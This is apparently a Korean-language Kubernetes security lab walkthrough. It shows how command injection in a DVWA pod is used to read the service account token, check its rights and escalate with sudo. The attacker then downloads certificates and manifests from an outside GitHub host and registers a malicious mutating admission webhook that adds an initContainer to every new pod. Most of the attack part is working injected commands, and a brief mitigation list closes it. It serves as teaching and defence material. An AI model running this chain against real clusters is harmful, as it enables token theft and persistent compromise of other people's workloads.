 # 개요
* admission controller을 사용하여 악성코드 pod를 생성

# 공격 방법
1. serviceAccount token 확인

```sh
127.0.0.1 -c 1 && cat /run/secrets/kubernetes.io/serviceaccount/token
```

![token](./imgs/attack1_token.png)

2. pod(정확한 표현은 serviceAccount)의 namespace 확인

```sh
127.0.0.1 -c 1 && cat /run/secrets/kubernetes.io/serviceaccount/namespace
```

![token](./imgs/attack1_namespace.png)

3. serviceAcount token 권한 확인

```sh
127.0.0.1 -c 1 && cat /run/secrets/kubernetes.io/serviceaccount/token | { read TOKEN; curl -k -v -X POST -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" -d '{"apiVersion":"authorization.k8s.io/v1","kind":"SelfSubjectRulesReview","spec":{"namespace":"dvwa"}}' https://kubernetes.default.svc.cluster.local/apis/authorization.k8s.io/v1/selfsubjectrulesreviews; }
```

![token](./imgs/attack1_authorization.png)

4. user id 확인

```sh
127.0.0.1 -c 1 && id
```

5. sudo 명령어 실행이 가능한지 확인

```sh
127.0.0.1 -c 1 && sudo id
```

![](./imgs/attack3_sudo.png)

5. 운영체제 확인

```sh
127.0.0.1 -c 1 && cat /etc/os-release
```

![](./imgs/attack3_os.png)


6. wget 설치

```sh
127.0.0.1 -c 1 && sudo apt update && echo done && sudo apt install wget
```

![](./imgs/attack3_apt_install.png)

7. admission controller webhook 인증서 다운로드

* ca.key, ca.crt 다운로드

```sh
127.0.0.1 -c 1 && wget https://raw.githubusercontent.com/choisungwook/portfolio/master/kubernetes/security/manifests/admission_controller/certs/ca.crt && cat ca.crt
127.0.0.1 -c 1 && wget https://raw.githubusercontent.com/choisungwook/portfolio/master/kubernetes/security/manifests/admission_controller/certs/ca.key && cat ca.key
```

* secret 생성

```sh
127.0.0.1 -c 1 && cat /run/secrets/kubernetes.io/serviceaccount/token | { read TOKEN; curl -k -v -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" -X POST -d '{"apiVersion":"v1","kind":"Secret","metadata":{"name":"webhook-certs","namespace":"default"},"data":{"tls.crt":"'"$(cat ca.crt | base64 | tr -d '\n')"'","tls.key":"'"$(cat ca.key | base64 | tr -d '\n')"'"},"type":"kubernetes.io/tls"}' https://kubernetes.default.svc.cluster.local/api/v1/namespaces/default/secrets; }
```

* admission controller pod 생성

```sh
127.0.0.1 -c 1 && wget https://raw.githubusercontent.com/choisungwook/portfolio/master/kubernetes/security/manifests/admission_controller/admission-controller-deployment.yaml && cat admission-controller-deployment.yaml
```

```sh
127.0.0.1 -c 1 && cat /run/secrets/kubernetes.io/serviceaccount/token | { read TOKEN; curl -k -v -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/yaml" -X POST --data-binary @admission-controller-deployment.yaml https://kubernetes.default.svc.cluster.local/apis/apps/v1/namespaces/default/deployments; }
```

* admission controler service 생성

```sh
127.0.0.1 -c 1 && wget https://raw.githubusercontent.com/choisungwook/portfolio/master/kubernetes/security/manifests/admission_controller/admission-controller-service.yaml && cat admission-controller-service.yaml
```

```sh
127.0.0.1 -c 1 && cat /run/secrets/kubernetes.io/serviceaccount/token | { read TOKEN; curl -k -v -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/yaml" -X POST --data-binary @admission-controller-service.yaml https://kubernetes.default.svc.cluster.local/api/v1/namespaces/default/services; }
```

* mutate webook 배포

```sh
127.0.0.1 -c 1 && wget https://raw.githubusercontent.com/choisungwook/portfolio/master/kubernetes/security/manifests/admission_controller/mutate-webhook.yaml && cat mutate-webhook.yaml
```

```sh
127.0.0.1 -c 1 && cat /run/secrets/kubernetes.io/serviceaccount/token | { read TOKEN; curl -k -v -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/yaml" -X POST --data-binary @mutate-webhook.yaml https://kubernetes.default.svc.cluster.local/apis/admissionregistration.k8s.io/v1/mutatingwebhookconfigurations; }
```

* 이제 공격자는 pod를 배포할 때마다 악성 initContainer가 생성됩니다. kubectl로 nginx pod를 생성해보세요

```sh
$ kubectl run --image=nginx -n default nginx-test
$ kubectl describe pod nginx-test -n default | grep "Init Container" -A 5
Init Containers:
  busybox-by-mutatehandler:
    Container ID:   containerd://3e244fbe4e0311f797388939705dbb1687c423f1953e02bea2cca987bb46ffb4
    Image:          busybox
    Image ID:       docker.io/library/busybox@sha256:9ae97d36d26566ff84e8893c64a6dc4fe8ca6d1144bf5b87b2b85a32def253c7
    Port:           <none>
```

# 보안조치
* sudo 권한 제거
* [role](./manifests/dvwa_webapp/clusterrole.yaml)에서 필요한 권한(최소권한)만 설정
* [clusterrole binding](./manifests/dvwa_webapp/clusterrolebinding.yaml)를 rolebinding으로 변경 -> 다른 namespace 접근 불가
* token이 불필요하면 automountServiceAccountToken을 false로 설정
* secret 데이터는 암호화해서 저장(써드파티 사용, 예: vault)
